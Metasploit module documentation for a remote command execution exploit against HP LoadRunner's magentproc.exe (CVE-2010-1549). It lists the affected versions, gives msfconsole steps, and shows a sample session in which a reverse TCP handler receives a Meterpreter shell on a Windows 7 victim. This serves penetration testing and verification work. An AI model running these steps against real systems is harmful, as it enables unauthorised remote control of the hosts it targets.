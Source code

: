## Vulnerable Application

HP Mercury LoadRunner Agent magentproc.exe Remote Command Execution (CVE-2010-1549)

This module exploits a remote command execution vulnerability in HP LoadRunner before 9.50 and also
HP Performance Center before 9.50. By sending a specially crafted packet, an attacker can execute commands remotely.
The service is vulnerable provided the Secure Channel feature is disabled (default).

During testing, additional versions were verified to be vulnerable.  The following list documents them:

 - HP LoadRunner 12.53 Community Edition (non-default SSL turned off)

HP LoadRunner 9.50 or below, or a version documented above.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: ```use exploit/windows/misc/hp_loadrunner_magentproc_cmdexec```
4. Do: ```set RHOST [ip]```
5. Do: ```run```
6. You should get a shell.

## Scenarios

### Win7 OS with HP LoadRunner 12.53 Community Edition

```
msf > use exploit/windows/misc/hp_loadrunner_magentproc_cmdexec
msf exploit(hp_loadrunner_magentproc_cmdexec) > set RHOST victim
RHOST => victim
msf exploit(hp_loadrunner_magentproc_cmdexec) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444
[*] victim:54345 - Sending payload...
[*] victim:54345 - Command Stager progress -   1.47% done (1499/102292 bytes)
[*] victim:54345 - Command Stager progress -   2.93% done (2998/102292 bytes)
[*] victim:54345 - Command Stager progress -   4.40% done (4497/102292 bytes)
[*] victim:54345 - Command Stager progress -   5.86% done (5996/102292 bytes)
[*] victim:54345 - Command Stager progress -   7.33% done (7495/102292 bytes)
...snip...
[*] victim:54345 - Command Stager progress -  92.32% done (94437/102292 bytes)
[*] victim:54345 - Command Stager progress -  93.79% done (95936/102292 bytes)
[*] victim:54345 - Command Stager progress -  95.25% done (97435/102292 bytes)
[*] victim:54345 - Command Stager progress -  96.72% done (98934/102292 bytes)
[*] victim:54345 - Command Stager progress -  98.15% done (100400/102292 bytes)
[*] victim:54345 - Command Stager progress -  99.55% done (101827/102292 bytes)
[*] victim:54345 - Command Stager progress - 100.00% done (102292/102292 bytes)
[*] Sending stage (179267 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:55556) at 2017-11-09 03:53:08 +1100

meterpreter > sysinfo
Computer        : TARGET
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_AU
Domain          : DOMAIN
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter >
Background session 1? [y/N]

```
